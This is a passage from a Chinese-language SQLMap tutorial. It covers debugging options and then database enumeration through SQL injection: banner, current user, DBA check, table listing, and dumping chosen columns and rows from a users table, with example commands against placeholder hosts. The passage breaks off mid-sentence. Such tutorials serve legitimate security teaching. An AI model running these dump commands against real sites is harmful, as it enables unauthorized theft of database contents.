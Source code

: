 - 最常用的是`-parse-errors`， SQLMap 将自动打印错误，从而让我们清楚地了解问题可能是什么。
- `-t`选项将整个流量内容存储到输出文件中。该`/tmp/traffic.txt`文件现在包含所有已发送和已接收的 HTTP 请求。

```shell
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

- `-v`选项可以提高控制台输出的详细程度，`-v 6`选项将直接将所有错误和完整的 HTTP 请求。
- `--proxy`选项将整个流量重定向到（中间人攻击）代理（例如`Burp`）。这会将所有 SQLMap 流量路由到`Burp`，以便我们可以手动调查所有请求，重复执行这些请求。

## 枚举数据库

例如易受攻击目标的主机名 ( `--hostname`)、当前用户名 ( `--current-user`)、当前数据库名称 ( `--current-db`) 或密码哈希值 ( `--passwords`)。
如果之前已识别出 SQLi 漏洞，SQLMap 将跳过该检测，直接启动 DBMS 枚举过程。

枚举通常从检索基本信息开始：

- 数据库版本标志（开关`--banner`）
- 当前用户名（开关`--current-user`）
- 当前数据库名称（开关`--current-db`）
- 检查当前用户是否具有管理员权限（开关`--is-dba`）

```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

找到当前数据库名称（例子为`testdb`）后，将通过使用`--tables`选项并使用指定数据库名称来检索表名称`-D testdb`，如下所示：

```shell
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

> 除了默认的 CSV 之外，我们还可以使用选项 `--dump-format` 将输出格式指定为 HTML 或 SQLite，以便我们稍后可以在 SQLite 环境中进一步调查数据库。

当处理具有许多列和/或行的大型表时，我们可以使用选项指定列（例如，仅`name`和`surname`列）`-C`，如下所示：

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

为了根据表中的序数缩小行数，我们可以使用和`--start`选项指定行`--stop`（例如，从第 2 个条目开始到第 3 个条目），如下所示：

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

如果需要根据已知`WHERE`条件检索某些行（例如`name LIKE 'f%'`），我们可以使用选项`--where`，如下所示：
